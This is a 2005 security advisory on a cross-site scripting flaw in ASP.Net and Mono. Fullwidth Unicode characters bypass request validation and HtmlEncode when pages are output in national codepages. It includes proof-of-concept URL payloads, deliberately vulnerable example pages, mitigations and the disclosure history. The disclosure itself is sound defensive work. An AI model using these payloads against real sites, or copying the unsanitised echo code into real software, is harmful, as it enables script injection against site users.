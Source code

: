# XSS vulnerability in ASP.Net

Andrey Rusyaev, post-graduate student of chair of Information Security of Far East State University, Vladivostok, Russia, [andir@it-project.ru](mailto:andir@it-project.ru)

February 9, 2005, Updated February 14, 2005

### Abstract

In specific conditions the cross-site scripting attack (XSS) [1] are possible on web site under management ASP.Net, because used a wrong filtration of special HTML characters. Attack exploits vulnerability of mechanism of converting Unicode strings [2] to national ASCII codepages. The basic problem arises from the lack of a filtration of special HTML characters in range U+ff00-U+ff60 (fullwidth ASCII characters [3]).

### Introduction

The problem has been discovered in August 2004. Affected all versions of .Net Framework what exist at present day:

1. .Net Framework, version 1.0,
2. .Net Framework, version 1.0 + service pack 1,
3. .Net Framework, version 1.0 + service pack 2,
4. .Net Framework, version 1.1,
5. .Net Framework, version 1.1 + service pack 1,
6. .Net Framework, version 1.1 + service pack 1 + Security Bulletin MS05-004 February 8, 2005.

After some testing, similar problem has been discovered in free implementation of .Net Framework by Mono Project [4]. Affected following versions:

1. Mono, version 1.0.5.

### Background

.Net Framework manipulates strings in Unicode only. Converting from/to national codepages ASCII is possible for input/output respectively. In particular, HTML text may be outputted on Web page in national ASCII codepage (such as &#39;windows-1251&#39;, &#39;koi-8&#39;, and more) with using ASP.Net. In this conditions Unicode characters from range U+ff00-U+ff60 (fullwidth ASCII characters) would be converted to normal ASCII characters respectively. Among fullwidth ASCII characters present some special HTML characters (such as &#39;<&#39;, &#39;>&#39;, and others), which may be used for injecting malicious HTML code or malicious script code (with \<script> HTML tag) or other variants (more details in [5]).

### Vulnerability Details

Has been discovered that mechanism of ASP.Net has no filtration of special HTML characters (such as &#39;<&#39;, &#39;>&#39; and others) in Unicode strings for output web page in one from national ASCII codepages.

1. Injection of special HTML characters to ASP.Net web-page with using Unicode characters from fullwidth ASCII characters range.

Example:

    http://server.com/attack1.aspx?test=%uff1cscript%uff1ealert(&#39;vulnerability&#39;)%uff1c/script%uff1e

Web page _&#39;attack1.aspx&#39;_ prints HTTP request parameter &#39;test&#39;.

Web page like following:
```csharp
    <!-- Web page attack1.aspx -->
    <% @Page Language="cs" %>
    <%
    Response.Write(Request.QueryString["test"]); // Attack through URL parameter
    %>
```

_Web.config_ for _server.com_ like following:
```xml
    <configuration>
        <system.web>
            <globalization **responseEncoding="windows-1251"** />
        </system.web>
    </configuration>
```

1. ASP.NET Request Validation Bypass Vulnerability.

The "Request Validation" mechanism designed to protect against Cross-Site
 Scripting and SQL injection allows restricted tags in Unicode range of fullwidth ASCII characters U+ff00-U+ff60.

Example:

    http://server.com/attack2.aspx?test=%uff1cscript%uff1ealert(&#39;vulnerability&#39;)%uff1c/script%uff1e

Web page _&#39;attack2.aspx&#39;_ prints HTTP request parameter &#39;test&#39;.

Web page like following:
```csharp
    <!-- Web page attack2.aspx -->
    <% @Page Language="cs" **validateRequest="true"** %>
    <%
    Response.Write(Request.QueryString["test"]); // Attack through URL parameter
    %>
```

_Web.config_ for _server.com_ like following:
```xml
    <configuration>
        <system.web>
            <globalization **responseEncoding="windows-1251"** />
        </system.web>
    </configuration>
```

_Note: attribute of ASP.Net Web page � validateRequest allowed only for ASP.Net of version 1.1 and more, or for Mono (no any information about versions) [6]._

1. HTML Encoding methods bypass.

_Note: This attack does not applied to ASP.Net in Mono implementation._

HttpServerUtility.HtmlEncode has no filtration mechanism for Unicode characters from range U+ff00-U+ff60.

The methods for encoding special HTML characters does not protect from attacks in previous examples. Encoding process used before converting to national ASCII codepage for output, and attacker may use fullwidth ASCII characters for injecting malicious code on Web page.

Example:

    http://server.com/attack3.aspx?test=%uff1cscript%uff1ealert(&#39;vulnerability&#39;)%uff1c/script%uff1e

Web page _&#39;attack3.aspx&#39;_ prints:

1. HTTP request parameter &#39;test&#39;_,_
2. Some string with injected Unicode characters.

Web page like following:
```csharp
    <!-- Web page attack3.aspx -->
    <% @Page Language="cs" %>
    <%
        Response.Write(Server.HtmlEncode(Request.QueryString["test"])); // 1) Attack through URL parameter

        string code = Server.HtmlEncode("\xff1cscript\xff1ealert(&#39;vulnerability&#39;)\xff1c/script\xff1e"); 2) Attack through injected Unicode characters

        Response.Write(code);
    %>
```

_Web.config_ for _server.com_ like following:
```xml
    <configuration>
        <system.web>
            <globalization **responseEncoding="windows-1251"** />
        </system.web>
    </configuration>
```

### Protection Methods

Some variants of protection methods may be proposed.

1. Use only Unicode codepage for output on ASP.Net pages, for this purpose add web.config like following:
```xml
    <configuration>
        <system.web>
            <globalization responseEncoding="utf-8" />
        </system.web>
    </configuration>
```

1. If you cannot use Unicode, you must to filter fullwidth ASCII characters from any untrusted data sources (user input, HTTP headers, some components ouput and other data).

### More Information

About this vulnerability has been reported to Microsoft Security Response Center at August 2, 2004 and received answer that opened case 5438 for description of vulnerability. Later, I received following answer:

"_We have decided that a KB article and update to tools and/or best practice guidelines should be done for this, and will be as time permits. We are not tracking this case as a security bulletin"_.

Vulnerability has no patch at current moment (February 9, 2005).

### References

1. CERT� Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests, [http://www.cert.org/advisories/CA-2000-02.html](http://www.cert.org/advisories/CA-2000-02.html)
2. Unicode Home Page, [http://unicode.org/](http://unicode.org/).
3. Unicode.org, Halfwidth and Fullwidth Forms, [http://www.unicode.org/charts/PDF/UFF00.pdf](http://www.unicode.org/charts/PDF/UFF00.pdf).
4. Mono Project, [http://mono-project.com/](http://mono-project.com/).
5. CGISecurity.com, "The Cross Site Scripting FAQ.", ��� 2002, http://www.cgisecurity.com/articles/xss-faq.shtml.
6. .Net Framework SDK, @Page directive, ValidateRequest attribute, [http://msdn.microsoft.com/library/default.asp?url=/library/en-us/cpgenref/html/cpconPage.asp](http://msdn.microsoft.com/library/default.asp?url=/library/en-us/cpgenref/html/cpconPage.asp).